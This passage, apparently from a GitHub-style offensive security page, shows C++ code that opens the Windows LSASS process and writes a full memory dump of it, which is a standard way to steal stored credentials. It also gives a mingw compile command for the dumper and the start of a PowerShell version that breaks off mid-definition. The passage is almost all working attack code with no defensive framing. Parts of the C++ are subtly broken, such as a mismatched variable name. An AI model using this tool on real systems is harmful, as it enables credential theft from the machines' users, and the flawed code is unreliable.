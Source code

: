 ```cpp
    lsass_process = OpenProcess(0x00000028, TRUE, process_id);
    if(!lsass_process) {
        std::cout << "[!] Couldn't open LSASS Process! " + GetLastError() << std::endl;
        exit(-1);
    }
    std::cout << "[+] Got a handle to the LSASS Process!" << std::endl;

    BOOL process_dump = MiniDumpWriteDump(lsassProcess, process_id, memory_file, MiniDumpWithFullMemory, NULL, NULL, NULL);
    if(!process_dump) {
        std::cout << "Error while calling MiniDumpWriteDump()" << std::endl;
        std::cout << GetLastError() << std::endl;
        exit(-1);
    }
    std::cout << "[+] Successfully conducted memory dump!" << std::endl;
}

int main(int argc, char *argv[]) {
    DWORD process_id = 0;

    process_id = getProcessIdentifer(argv[1]);
    if(process_id == 0) {
	    std::cout << "PID not found! Terminating..." << std::endl;
        return -1;
    } else {
	    std::cout << "PID = " + process_id << std::endl;
    }

    LSASSDump(process_id);
    return 0;
}
```

Compile the memory dumper.

```
$ x86_64-w64-mingw32-g++ -O2 lsass-dump.cpp -o lsass-dump.exe \
-ldbghelp -mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive >/dev/null 2>&1
```

## PowerShell

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
public class MiniDump {
    [Flags]
    public enum Option : uint {
        Normal = 0x00000000,
        WithDataSegs = 0x00000001,
        WithFullMemory = 0x00000002,
        WithHandleData = 0x00000004,
        FilterMemory = 0x00000008,
        ScanMemory = 0x00000010,
        WithUnloadedModules = 0x00000020,
        WithIndirectlyReferencedMemory = 0x00000040,
        FilterModulePaths = 0x00000080,
        WithProcessThreadData = 0x00000100,
        WithPrivateReadWriteMemory = 0x00000200,
```